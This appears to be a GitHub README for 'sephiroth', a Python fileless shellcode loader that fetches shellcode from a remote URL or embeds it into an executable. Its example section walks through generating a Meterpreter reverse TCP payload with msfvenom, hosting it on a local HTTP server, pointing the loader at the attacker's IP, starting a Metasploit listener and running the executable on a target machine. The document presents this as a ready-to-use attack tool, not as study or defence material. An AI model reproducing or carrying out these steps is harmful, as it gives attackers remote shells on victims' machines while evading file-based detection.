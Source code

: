 ![Alt text](<2024-02-20 07_45_57-C__Windows_System32_cmd.exe.png>)

Greetings
-------------------

sephiroth  is a Fileless Shellcode Loader with Python :


Usage: python Sephiros.py -url 'urlforshellcode'


you can also just embed shellcode into the PE using -sh 'pathofshellcode'

fileless executing example:
-------------------
generate shellcode with:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=5555 -f raw  -o shellcode

python3 -m http.server 80


then:

python Sephiroth.py -url http://yourip/shellcode

start metasploit listener

execute PE on target machine

todo
--------
asymetric encryption to the shellcode
